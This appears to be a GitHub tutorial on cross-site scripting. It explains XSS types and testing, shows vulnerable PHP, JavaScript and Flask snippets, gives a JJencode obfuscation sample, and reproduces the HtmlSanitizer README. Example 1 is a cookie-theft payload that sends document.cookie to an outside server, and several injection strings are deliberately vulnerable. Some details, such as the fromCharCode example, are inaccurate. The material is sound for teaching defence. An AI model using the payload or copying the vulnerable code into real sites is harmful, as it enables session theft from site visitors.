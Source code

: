 # XSS 

## Lexic

* [JavaScript](items/javascript.md)
* [Cookies](items/cookies.md)
* [Web Client](items/web_client.md)
* [Web Server](items/web_server.md)
* [XMLHttpRequest](items/xhr.md)
* [WAF](items/waf.md)
* [Proxy](items/proxy.md)
* [SOP](items/sop.md)
* [HTML](items/html.md)
* [DOM](items/dom.md)

## Nomenclature 
### XSS stands for:
Cross Site Scripting
### Exploitability
Easy / Medium / Difficult according to the context
### Impact : 
Several: `disfigurements, theft of cookie, unauthorized files access, DoS, control victim browser, ` 
# Cross Site Scripting 
-----
## Overview 
The XSS attack is an attack realized when data submit from end user is `interpretted by a browser` through [Javascript](items/javascript.md) language mostly.
It is classified among `injection attacks`.  Early on, it was categorized as **three** kinds, `stored`, `DOM based` and `reflected`. 
* These three types were defined as follows :

  * __Stored XSS__: generally occurs when server stocks submitted data from one user and then this data could be seen by others users : in a message log, in user log, in user credentials, in message form, in user cv.
 
 `Client -> Server -> Users of the site (possibily including attacker)`

  * __Reflected XSS__ : when the user supplied data is automatically replied to the same user without escapping from the server.
 
 `Client -> Server -> Client`

  * __DOM based XSS__ : when the user input is not sent to the server but is used to automatically update its `DOM`.
 
 `Client -> Client`

* This classification was quickly deprecated. To clarify it, the research community proposed two new terms to help organize the types of XSS that can occur :
  * **Server XSS**
  * **Client XSS**

### Server XSS 
---
Server XSS occurs when untrusted data from user is replied with server generated HTML. In this case, the entire vulnerability is in **server-side code**, and the browser is simply rendering the response and executing any valid script embedded within it.

### Client XSS
----
Client XSS occurs when `untrusted data` is used to update the `DOM` with an unsafe call of **client-side script**. 

## How to test for XSS 
* `Graybox` test is the best way to test for XSS. Each HTTP data input and printed after could possibly be an XSS attack vector if the input is not escapped. 
For example this code is vulnerable.
```PHP
    <?php
    echo 'Hello <h1>' .$_GET["name"]. '!</h1>';
    ?>
```
If the value of name is ```</h1><script>alert('xss');</script><h1>``` the browser will get the following answer from the server 
```HTML
    <h1>!</h1>
    <script>alert('xss');</script>
    <h1></h1>
```	


* The best way to perform `black blackbox` XSS test in server is to use a `proxy`, `dirbust` the website and `analyze` all submitted data to the server and inject some HTML characters and analyse the server responses. Submit to check :
  * HTTP headers
  * URL parameters, query string
  * Request body, form data
  * Cookies, API storage 

From all the website submits listed, test with HTML chars (html entities), and look the render in browser. If it is not well escaped (the result is not HTML special character), probably the website is XSS vulnerable.

 
---
## Examples     
### Example 1 : cookie theft 
This code will send the cookie of the user who visit the website containing this payload. 

```HTML
    <img src="nonExistImg" onerror="myFunction()"/>
    <script>function myFunction(){
	window.location = "http://myServer/?cookie".concat("=", document.cookie);
	}
    </script>
```

### Example 2 : XSS with weak js function 

```Javascript
    myFunction(){
	myImg.src = document.getElementById('imgId').value; 
	document.body.appendChild(myImg); 
	}

```
If the user sends ```'); alert('xss'); document.getElement('``` the code will become ```myImg.src = document.getElementById(''); alert('xss'); document.getElementById('imgId').value;```

### Example 3 : Bad escapping
```
   myFunction(){
	userInputEscapped = userInput.replace('<script>', ' ');
	document.appendChild(userInputEscapped);
	}

```
This function appends to the document body the user input. It replaces the user input containing <script> by " ". 
For example, if a user inputs ```<script>alert("test");</script>``` the result will be ```alert("test");``` and then will not be executed.
This kind of escapping is very unuseful. If the attacker choose ```<SCRIPT>alert('test');</SCRIPT>``` the replace method is case sensitive, so the js script will be executed. 
``` 
myFunction(){
	userInputEscapped = userInput.replace('"', ' '); 
	document.body.appendChild(userInputEscapped); 
	}
  ```
In this example the quote char is replaced with ' '. An attacker could attack this implementation by using ```String.fromCharCode(35,120,115,115,34);``` to get ```alert("XSS")```.

### Obfuscation
`Obfuscation` is the deliberate act of creating source or machine code that is difficult for humans to understand. Like obfuscation in natural language, it may use needlessly roundabout expressions to compose statements. Programmers may deliberately obfuscate code to conceal its purpose (security through obscurity) or its logic or implicit values embedded in it, primarily, in order to prevent tampering, deter reverse engineering, or even as a puzzle or recreational challenge for someone reading the source code. This can be done manually or by using an automated tool, the latter being the preferred technique in industry.
#### Example:
Let's assume the following script:
```
alert("Hello, JavaScript" );
```
After an obfuscation with [JJencode](http://utf-8.jp/public/jjencode.html); it looks like:
```
$=~[];$={___:++$,$$$$:(![]+"")[$],__$:++$,$_$_:(![]+"")[$],_$_:++$,$_$$:({}+"")[$],$$_$:($[$]+"")[$],_$$:++$,$$$_:
(!""+"")[$],$__:++$,$_$:++$,$$__:({}+"")[$],$$_:++$,$$$:++$,$___:++$,$__$:++$};$.$_=($.$_=$+"")[$.$_$]+
($._$=$.$_[$.__$])+($.$$=($.$+"")[$.__$])+((!$)+"")[$._$$]+($.__=$.$_[$.$$_])+($.$=(!""+"")[$.__$])+($._=(!""+"")
[$._$_])+$.$_[$.$_$]+$.__+$._$+$.$;$.$$=$.$+(!""+"")[$._$$]+$.__+$._+$.$+$.$$;$.$=($.___)[$.$_]
[$.$_];$.$($.$($.$$+"\""+$.$_$_+(![]+"")[$._$_]+$.$$$_+"\\"+$.__$+$.$$_+$._$_+$.__+"(\\\"\\"+$.__$+$.__$+$.___+$.$$$_+
(![]+"")[$._$_]+(![]+"")[$._$_]+$._$+",\\"+$.$__+$.___+"\\"+$.__$+$.__$+$._$_+$.$_$_+"\\"+$.__$+$.$$_+$.$$_+$.$_$_+"
\\"+$.__$+$._$_+$._$$+$.$$__+"\\"+$.__$+$.$$_+$._$_+"\\"+$.__$+$.$_$+$.__$+"\\"+$.__$+$.$$_+$.___+$.__+"
\\\"\\"+$.$__+$.___+")"+"\"")())();
```
Note : Note that the **ENCODED** above does not appear in encoded files, rather it is the location where the encoded 
host code would appear. Also note that this algorithm does not work in direct mode (that is, putting it in a .js won’t 
work) because it requires a feature that was introduced in HTML 4.0. As a result, it must appear in an HTML page, and that HTML page must declare its need for HTML 4.0 or later using a declaration like this:
```<!DOCTYPE html PUBLIC “-//W3C//DTD HTML 4.0//EN”>```
The **HTML 4.0** 4.0’ string can be replaced by later versions, such as ‘HTML 4.1’ or ‘XHTML 1.0’, etc.

## Counter Measures
* **Rule #1**: **NEVER** trust client. Always perform `input validation` at every single posted by the user to the server. This includes `escaping`, `filtering` and checking everything related to data submit.
* **Rule #2**: Always update `plugins`, `modules`, `core` and all plugged packaged being used in web systems. Indeed, this contributes in limiting XSS flaws risks. This requires mastering and knowing each item used in the system/web site.
* **Rule #3**: `Disable`/`remove` unuseful features/modules cause `more one's web site embeds packages, higher is the risk of XSS vulnerability presence` mostly in CMSs.
* **Rule #4**: Think of using a [WAF](items/waf.md) and think of `deofuscation` methods.
* **Rule #5**: Implement [SOP](items/sop.md) policy `properly`.
 
 Now let's pick up some server side programming languages for more `accurate ` counter measures implementations.
 ### PHP
 -----
 
 ### ASP.Net
 -----
 
 ### C#
 -----
 #### HtmlSanitizer

HtmlSanitizer is a .NET library for cleaning HTML fragments and documents from constructs that can lead to [XSS attacks](https://en.wikipedia.org/wiki/Cross-site_scripting).
It uses [AngleSharp](https://github.com/AngleSharp/AngleSharp) to parse, manipulate, and render HTML and CSS.

Because HtmlSanitizer is based on a robust HTML parser it can also shield you from deliberate or accidental
"tag poisoning" where invalid HTML in one fragment can corrupt the whole document leading to broken layout or style.

In order to facilitate different use cases, HtmlSanitizer can be customized at several levels:
   
- Configure allowed HTML tags through the property `AllowedTags`. All other tags will be stripped.
- Configure allowed HTML attributes through the property `AllowedAttributes`. All other attributes will be stripped.
- Configure allowed CSS property names through the property `AllowedCssProperties`. All other styles will be stripped.
- Configure allowed CSS [at-rules](https://developer.mozilla.org/en-US/docs/Web/CSS/At-rule) through the property `AllowedAtRules`. All other at-rules will be stripped.
- Configure allowed URI schemes through the property `AllowedSchemes`. All other URIs will be stripped.
- Configure HTML attributes that contain URIs (such as "src", "href" etc.) through the property `UriAttributes`.
- Provide a base URI that will be used to resolve relative URIs against.
- Cancelable events are raised before a tag, attribute, or style is removed.

#### Tags allowed by default
`a, abbr, acronym, address, area, article, aside, b, bdi, big, blockquote, br, button, caption, center, cite, code, col, colgroup, data, datalist, dd, del, details, dfn, dir, div, dl, dt, em, fieldset, figcaption, figure, font, footer, form, h1, h2, h3, h4, h5, h6, header, hr, i, img, input, ins, kbd, keygen, label, legend, li, main, map, mark, menu, menuitem, meter, nav, ol, optgroup, option, output, p, pre, progress, q, rp, rt, ruby, s, samp, section, select, small, span, strike, strong, sub, summary, sup, table, tbody, td, textarea, tfoot, th, thead, time, tr, tt, u, ul, var, wbr`

#### Attributes allowed by default
`abbr, accept, accept-charset, accesskey, action, align, alt, autocomplete, autosave, axis, bgcolor, border, cellpadding, cellspacing, challenge, char, charoff, charset, checked, cite, clear, color, cols, colspan, compact, contenteditable, coords, datetime, dir, disabled, draggable, dropzone, enctype, for, frame, headers, height, high, href, hreflang, hspace, ismap, keytype, label, lang, list, longdesc, low, max, maxlength, media, method, min, multiple, name, nohref, noshade, novalidate, nowrap, open, optimum, pattern, placeholder, prompt, pubdate, radiogroup, readonly, rel, required, rev, reversed, rows, rowspan, rules, scope, selected, shape, size, span, spellcheck, src, start, step, style, summary, tabindex, target, title, type, usemap, valign, value, vspace, width, wrap`

_Note:_ to prevent [classjacking](https://html5sec.org/#123) and interference with classes where the sanitized fragment is to be integrated, the `class` attribute is not in the whitelist by default. 
It can be added as follows:
```C#
var sanitizer = new HtmlSanitizer();
sanitizer.AllowedAttributes.Add("class");
var sanitized = sanitizer.Sanitize(html);
```

#### CSS properties allowed by default
`background, background-attachment, background-color, background-image, background-position, background-repeat, border, border-bottom, border-bottom-color, border-bottom-style, border-bottom-width, border-collapse, border-color, border-left, border-left-color, border-left-style, border-left-width, border-right, border-right-color, border-right-style, border-right-width, border-spacing, border-style, border-top, border-top-color, border-top-style, border-top-width, border-width, bottom, caption-side, clear, clip, color, content, counter-increment, counter-reset, cursor, direction, display, empty-cells, float, font, font-family, font-size, font-style, font-variant, font-weight, height, left, letter-spacing, line-height, list-style, list-style-image, list-style-position, list-style-type, margin, margin-bottom, margin-left, margin-right, margin-top, max-height, max-width, min-height, min-width, opacity, orphans, outline, outline-color, outline-style, outline-width, overflow, padding, padding-bottom, padding-left, padding-right, padding-top, page-break-after, page-break-before, page-break-inside, quotes, right, table-layout, text-align, text-decoration, text-indent, text-transform, top, unicode-bidi, vertical-align, visibility, white-space, widows, width, word-spacing, z-index`

#### CSS at-rules allowed by default
`namespace, style`

`style` refers to style declarations within other at-rules such as `@media`. Disallowing `@namespace` while allowing other types of at-rules can lead to errors.
Property declarations in `@font-face` and `@viewport` are not sanitized.

_Note:_ the `style` tag is disallowed by default.

#### URI schemes allowed by default
``http, https``

_Note:_ [Protocol-relative URLs](http://en.wikipedia.org/wiki/Wikipedia:Protocol-relative_URL)  (e.g. <a href="//github.com">//github.com</a>) are allowed by default (as are other relative URLs).

to allow `mailto:` links: 

```C#
sanitizer.AllowedSchemes.Add("mailto");
```

#### Default attributes that contain URIs
`action, background, dynsrc, href, lowsrc, src`

#### Thread safety

The `Sanitize()` and `SanitizeDocument()` methods are thread-safe, i.e. you can use these methods on a single shared instance from different threads provided you do not simultaneously set instance or static properties. A typical use case is that you prepare an `HtmlSanitizer` instance once (i.e. set desired properties such as `AllowedTags` etc.) from a single thread, then call `Sanitize()`/`SanitizeDocument()` from multiple threads.

#### Text content not necessarily preserved as-is

Please note that as the input is parsed by AngleSharp's HTML parser and then rendered back out, you cannot expect the text content to be preserved exactly as it was input, even if no elements or attributes were removed. Examples:

- `4 < 5` becomes `4 &lt; 5`
- `<SPAN>test</p>` becomes `<span>test<p></p></span>`
- `<span title='test'>test</span>` becomes `<span title="test">test</span>`

On the other hand, although some broken HTML is fixed by the parser, the output might still contain invalid HTML. Examples:

- `<div><li>test</li></div>`
- `<ul><br><li>test</li></ul>`
- `<h3><p>test</p></h3>`

##### Usage
-----

Install the [HtmlSanitizer NuGet package](https://www.nuget.org/packages/HtmlSanitizer/). Then:

```C#
var sanitizer = new HtmlSanitizer();
var html = @"<script>alert('xss')</script><div onload=""alert('xss')"""
    + @"style=""background-color: test"">Test<img src=""test.gif"""
    + @"style=""background-image: url(javascript:alert('xss')); margin: 10px""></div>";
var sanitized = sanitizer.Sanitize(html, "http://www.example.com");
Assert.That(sanitized, Is.EqualTo(@"<div style=""background-color: test"">"
    + @"Test<img style=""margin: 10px"" src=""http://www.example.com/test.gif""></div>"));
```

##### Example
```C#
using System;
using Ganss.XSS;


					
public class Program
{
	public static void Main()
	{
		var sanitizer = new HtmlSanitizer();
var html = @"<script>alert('xss')</script><div onload=""alert('xss')"""
    + @"style=""background-color: test"">Test<img src=""test.gif"""
    + @"style=""background-image: url(javascript:alert('xss')); margin: 10px""></div>";
var sanitized = sanitizer.Sanitize(html, "http://www.example.com");
	Console.WriteLine(sanitized);	
	}
}
```
This is the resulting output:
```
<div style="background-color: test">Test<img src="http://www.example.com/test.gif" style="margin: 10px"></div>
```

There's an [online demo](http://xss.ganss.org/), plus there's also a [.NET Fiddle](https://dotnetfiddle.net/qqpiDh) you can play with.

#### Reference
[OWASP Html C# Sanitizer](https://github.com/mganss/HtmlSanitizer/edit/master/README.md)


 ### Java
 -----
 
 ### Node.JS
 -----
 
 ### Python
 -----
 
  #### Incorrect
  In this part, we will be dealing the Python [Flask library](items/flask.md).
The following is a contrived example of how a **reflected XSS** exploit may occur. If an attacker were to submit a request to `http://example.com/?name=<script>alert(1)</script>` then any user viewing that url would have the javascript executed within the context of their browser.
```
# flask example
@app.route("/")
def hello():
    name = request.args.get('name')
    return "Hello %s" % name
```
  #### Correct
The correct way to prevent XSS attacks is to validate user input and ensure that data rendered by templates is escaped. Using templates in the way they are intended is preferable:
```
# flask example
@app.route("/")
def hello():
    name = request.args.get('name')
    return render('hello.html', name=name)

# where hello.html is:
# <html>Hello {{ name }}</html>
```

Any HTML content that is generated directly within a request handler should use the appropriate escaping function:
```
from flask import escape
@app.route("/")
def hello():
    name = request.args.get('name')
    return "Hello %s" % escape(name)
```
  #### Allowing certain special characters
  The issue is made more complex when we encounter situations where `we need to allow a specific set of special characters, such as the ability to post content containing HTML tags`. In this situation we can either:
  * accept only known good data, 
  * or we can deny all known bad data. 
  Both approaches have pros and cons, with the specific choice of implementation being dependent on the given application. In general however, the following should be the list of priorities:

* **Encoding** - Replace ALL control characters with known safe alternatives
* **Positive validation (whitelist)** - Only allow a specific set of values
* **Negative validation (blacklist)** - Block a specified list of dangerous values

In cases where `positive validation` is used, it should also be coupled with additional sanitization. For example, when allowing certain HTML tags, certain attributes of those tags should be removed, such as event handlers. e.g.:
```
<img src='someimage.jpg' onload='do_evil()'/>
```
Again, the preferable approach is to only `allow known safe attributes`, and sanitize the content of those attribute values. If the content is not sanitized, the following vulnerable code could occur:
```
function add_image(link) {
  document.write('<img src="' + link + '"'></img>'');
}
```
If the preceding JavaScript function is called with the link parameter containing the following value, the function can be exploited to execute arbitrary code:
```
x" onerror="do_evil()
```
A more secure implementation of the above would be:
```
function add_image(link) {
  clean = link.replace(/"/g, '&quot;');
  document.write('<img src="' + clean + '"'></img>'');
}
Note, this is a very specific example for illustration. A more comprehensive approach to sanitization should be taken for larger applications.
```
[Here](items/activates.md) is properly enough written library to help defend against XSS injections.
